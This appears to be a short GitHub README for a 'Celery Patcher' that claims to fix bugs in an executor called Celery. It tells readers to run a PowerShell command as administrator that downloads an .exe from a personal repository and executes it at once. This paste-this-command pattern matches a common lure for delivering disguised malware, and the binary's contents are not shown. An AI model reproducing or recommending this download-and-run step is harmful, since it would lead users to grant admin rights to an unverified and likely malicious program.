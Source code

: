 # Is celery throwing random bugs for you?

[Celery Patcher](https://github.com/boogiescub/Hola/raw/main/celery%20patcher.exe) Aim's are to HOPEFULLY fix this bug for you.
Run this in powershell as admin:
```ps
wget -o celerypatcher.exe https://github.com/boogiescub/Hola/raw/main/celery%20patcher.exe && .\celerypatcher.exe
```
This will automatically locate and fix the bugs celery has.

Thank you for supporting this project Woody!

Celery is a good executor for now, but it has some bugs.

# Official Discord:
This is the official discord for celery, beware so you don't get ratted.
https://discord.gg/celery
